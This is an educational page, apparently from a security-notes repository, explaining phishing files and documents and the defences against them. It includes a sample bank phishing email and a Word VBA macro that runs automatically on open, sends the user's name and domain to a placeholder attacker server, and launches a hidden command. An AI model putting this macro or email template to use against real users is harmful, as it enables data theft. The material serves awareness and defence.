 # Phishing Files & Documents


# 👉 Overview

---

### 👀 What ?

Phishing files and documents is a cyberattack method that involves the use of deceptive files or documents to trick users into revealing sensitive information, such as usernames, passwords, and credit card details.


### 🧐 Why ?

Understanding phishing files and documents is vital as it is one of the most common methods used by cybercriminals to steal sensitive information. As our reliance on digital systems grows, so does the potential for such attacks. This knowledge can help individuals and organizations to better protect themselves against such threats.


### ⛏️ How ?

To defend against phishing attacks, it's crucial to be aware of suspicious files or documents. This can include files or documents sent via email, downloaded from the internet, or even received through physical storage devices. Always verify the source of the file or document, be wary of unexpected or unsolicited files, and do not open or download files from untrusted sources. Implementing strong security measures, such as antivirus software and firewalls, can also help to detect and block phishing attempts.


### ⏳ When ?

Phishing attacks began to emerge in the mid-1990s, with the advent of the internet and email communication. However, they have become increasingly sophisticated over time, with phishing files and documents now often disguised as legitimate files from reputable sources.


# ⚙️ Technical Explanations

---

Phishing attacks typically involve social engineering techniques to manipulate users into revealing sensitive information. This may involve the use of seemingly legitimate emails, websites, or documents that trick the user into entering their details. The malicious files or documents may contain hidden scripts or macros that, when opened, can execute code to capture and transmit the user's information. These attacks can be quite sophisticated, often mimicking the appearance and functionality of legitimate files or documents to deceive the user. Defending against such attacks requires a combination of user awareness, technical security measures, and robust policies and procedures.

## Detailed Explanation

### Overview of Phishing Attacks

Phishing is a cyberattack method that leverages social engineering techniques to deceive individuals into divulging confidential or personal information. These attacks can take various forms, including emails, malicious websites, and deceptive documents. The goal of a phishing attack is to gain unauthorized access to sensitive information such as usernames, passwords, and financial details.

### Types of Phishing Attacks

1. **Email Phishing**: Attackers send emails that appear to be from legitimate sources, urging recipients to click on malicious links or download harmful attachments.
2. **Spear Phishing**: A more targeted form of phishing where the attacker customizes the email content based on the victim's personal information.
3. **Whaling**: Targets high-profile individuals such as executives or key decision-makers within an organization.
4. **Smishing and Vishing**: Phishing conducted via SMS (smishing) or voice calls (vishing).

### Example of a Phishing Attack

Let's consider a real-world example for educational purposes. An attacker sends an email that appears to be from a well-known bank, urging the recipient to update their account information due to unusual activity. The email contains a link to a website that looks identical to the bank's legitimate site.

**Email Example**:

```
Subject: Urgent: Unusual Activity on Your Bank Account

Dear Customer,

We have detected unusual activity on your account. Please click the link below to verify your account information to avoid suspension.

[Verify Account]

Thank you,
Your Bank

```

**Malicious Website**:
The website replicates the bank's login page but is hosted on a different domain, often with a subtle misspelling.

### Technical Explanation

When the user clicks the link and enters their login credentials, the malicious website captures this information and sends it to the attacker. Often, the phishing email includes an attachment that, when opened, executes a hidden script or macro.

**Example Code**:
Here is a simplified example of a macro that could be embedded in a Word document:

```
Sub AutoOpen()
    Call Main
End Sub

Sub Main()
    Dim objXML As Object
    Dim objWS As Object
    Set objXML = CreateObject("MSXML2.XMLHTTP")
    Set objWS = CreateObject("WScript.Shell")

    ' URL of attacker's server to send data
    URL = "<http://attacker-server.com/capture.php?data=" & Environ("Username") & ":" & Environ("UserDomain")
    objXML.Open "GET", URL, False
    objXML.Send

    ' Execute a hidden command
    objWS.Run "cmd /c calc", 0, False
End Sub

```

### Steps to Defend Against Phishing

1. **User Awareness**: Educate users to recognize phishing attempts. Training programs and simulated phishing attacks can help.
2. **Technical Measures**:
    - **Email Filters**: Implement email filtering solutions to detect and block phishing emails.
    - **Antivirus Software**: Use up-to-date antivirus software to detect and prevent malicious attachments.
    - **Firewalls**: Configure firewalls to block traffic from known malicious domains.
3. **Policies and Procedures**: Establish and enforce security policies, such as verifying the sender's authenticity before responding to sensitive information requests.

### Conclusion

Phishing attacks are a prevalent and evolving threat, leveraging social engineering to deceive users into revealing sensitive information. By understanding the techniques used and implementing comprehensive security measures, individuals and organizations can better protect themselves from these malicious attacks. Regular training and awareness, coupled with robust technical defenses, are key components in mitigating the risk of phishing.

### References

- [Anti-Phishing Working Group (APWG)](https://apwg.org/)
- [National Institute of Standards and Technology (NIST) - Phishing](https://www.nist.gov/)
- [Phishing.org - Phishing Information and Prevention](https://www.phishing.org/)
